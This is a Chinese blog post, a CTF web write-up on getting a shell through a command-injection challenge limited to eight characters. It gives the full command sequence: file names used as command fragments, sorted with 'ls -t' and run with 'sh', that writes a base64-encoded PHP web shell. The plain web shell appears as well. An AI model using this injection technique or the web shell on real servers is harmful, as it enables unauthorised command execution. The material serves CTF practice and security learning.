






<!--yml
category: 未分类
date: 2022-04-26 14:42:58
-->

# CTF_Web：8位以内可控字符getshell_星辰照耀你我的博客-CSDN博客_ctf getshell

> 来源：[https://blog.csdn.net/qq_35493457/article/details/119385240](https://blog.csdn.net/qq_35493457/article/details/119385240)

### 题目来源

近期在练习CTF中的web题目时遇到一个8位字符以内可以随意执行命令，最终需要getshell 的题目，发现很多前辈都写了这类型的题解，但也需要自己实践一下，题目源码访问后如图：

**思路**：可以看出当提交的参数1包含的值少于8位时，都会当作命令执行，首先`?1=ls`发现所有文件名都超过了8位，显然单靠这8位执行命令是不足以cat某个文件，于是需要利用拼接文件名执行代码getshell。


### 解题利用知识点

```
>a "在linux中会直接创建这个文件，但没有内容"
ls -t "将目录中的文件以时间顺序排列，最后创建的排在第一位"
sh a "将文件a中的所有内容以命令执行"
who/
am/
i "Linux中的命令拼接符/会将命令按照whoami执行" 
```

例如


在这个题目中就是要将一个一句话木马写入文件，然后访问这个一句话从而getshell，这里使用创建一句话的命令为：

```
echo <?php echo shell_exec($_GET[1]); >1.php "便于查看回显"
echo PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWzFdKTs=|base64 -d>1.php "使用base64的方式避免$等特殊字符输入失败" 
```

将这段话倒序输入后再利用`ls -t>0`正序输入文本中执行，就可以生成一个一句话木马，注意所有字符都需`\`转义。

```
>hp
>1.p\\
>d\>\\
>\ -\\
>64\ \\
>base\\
>\=\|\\
>dKTs\\
>UWzF\\
>fR0V\\
>jKCR\\
>leGV\\
>sbF9\\
>zaGV\\
>obyB\\
>gZWN\\
>waHA\\
>PD9\\
>o\ \\
>ech\\
ls -t>0
sh 0 
```

使用`cat a`查看`ls -t`写入的内容

使用`ls`查看`sh a`是否成功执行生成了`1.php`

并连接使用`mv flag.php flag.txt`将`flag`修改为`txt`格式。

最终访问flag.txt得到flag